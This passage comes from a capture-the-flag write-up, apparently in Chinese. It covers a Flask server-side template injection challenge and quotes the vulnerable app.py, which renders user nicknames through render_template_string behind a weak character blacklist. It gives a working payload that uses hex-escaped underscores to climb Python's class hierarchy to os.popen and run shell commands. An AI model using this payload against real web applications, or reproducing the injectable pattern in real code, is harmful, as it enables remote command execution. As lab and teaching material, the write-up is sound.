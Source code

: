 class，base往上找到基类`Object`，再从基类`Object`的子类subclasses里找到`os._wrap`子类的索引下标127

往下找init,globals实例化对象调用popen函数执行命令，在根目录下没有flag

::: v-pre
```python
nickname={{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("ls /")["read"]()}}
```
:::

查看app.py源码

```python
import random
from flask import Flask, render_template_string, render_template, request
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = 'folow @osminogka.ann on instagram =)'  # Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

file = open("/app/flag", "r")
flag = file.read()
flag = flag[:42]
app.config['flag'] = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
flag = ""
os.remove("/app/flag")

nicknames = [
    '˜”*°★☆★_%s_★☆★°°*', 
    '%s ~♡ⓛⓞⓥⓔ♡~', 
    '%s Вêчңø в øĤлâйĤé', 
    '♪ ♪ ♪ %s ♪ ♪ ♪ ', 
    '[♥♥♥%s♥♥♥]', 
    '%s, kOтO®Aя )(оТеЛ@ ©4@$tьЯ', 
    '♔%s♔', 
    '[♂+♂=♥]%s[♂+♂=♥]'
]

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        try:
            p = request.values.get('nickname')
            id = random.randint(0, len(nicknames) - 1)
            if p is not None:
                if '.' in p or '_' in p or '\'' in p:
                    return 'Your nickname contains restricted characters!'
            return render_template_string(nicknames[id] % p)
        except Exception as e:
            print(e)
            return 'Exception'
    return render_template('index.html')
```